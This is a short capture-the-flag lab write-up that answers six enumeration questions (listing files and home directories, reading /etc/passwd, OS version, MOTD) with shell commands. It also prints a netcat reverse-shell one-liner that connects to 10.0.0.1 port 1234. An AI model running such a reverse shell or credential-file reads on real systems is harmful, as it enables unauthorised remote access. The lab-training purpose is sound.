

Use the below reverse shell (Pentest Monkey)[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet] if you want to work on your own terminal


`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`

#1 What strange text file is in the website root directory?

```
ls
```

#2 How many non-root/non-service/non-daemon users are there?

```
ls /home
```

#3 What user is this app running as?

```
whoami
```

#4 What is the user's shell set as?
```
cat /etc/passwd
```

#5 What version of Ubuntu is running?
```
lsb_release -a
```

#6 Print out the MOTD.  What favorite beverage is shown?

```
cat /etc/update-mot.d/00-header
```